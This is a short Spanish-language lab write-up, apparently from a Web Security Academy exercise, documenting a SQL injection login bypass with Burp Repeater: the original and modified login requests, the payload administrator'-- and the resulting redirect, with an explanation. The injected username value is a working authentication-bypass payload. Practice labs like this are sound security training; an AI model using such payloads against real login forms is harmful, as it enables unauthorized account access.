

# Lab 01 - SQL Injection Login Bypass

## Objetivo

Iniciar sesión como el usuario `administrator` explotando una vulnerabilidad SQL Injection en el formulario de login.

## Herramientas utilizadas

- Burp Suite
- Burp Repeater
- Web Security Academy
- Navegador con proxy configurado

## Request original

```http
POST /login HTTP/2
Host: lab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=sonro&password=123456
```

## Payload utilizado

```sql
administrator'--
```

## Request modificada

```http
POST /login HTTP/2
Host: lab.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=administrator'--&password=123456
```

## Respuesta obtenida

```http
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=...
```

## Evidencia



## Explicación técnica

El payload `administrator'--` cierra la comilla del valor enviado en el campo `username`.

Luego, `--` comenta el resto de la consulta SQL, provocando que la validación de la contraseña no sea procesada.

La aplicación termina evaluando únicamente la condición del usuario `administrator`.

## Resultado

Se logró iniciar sesión como `administrator`.

## Qué aprendí

- Cómo usar Burp Repeater para modificar una petición HTTP.
- Cómo identificar una respuesta exitosa mediante `302 Found`.
- Qué significa el header `Location`.
- Qué significa `Set-Cookie`.
- Cómo una SQL Injection puede alterar la lógica de autenticación.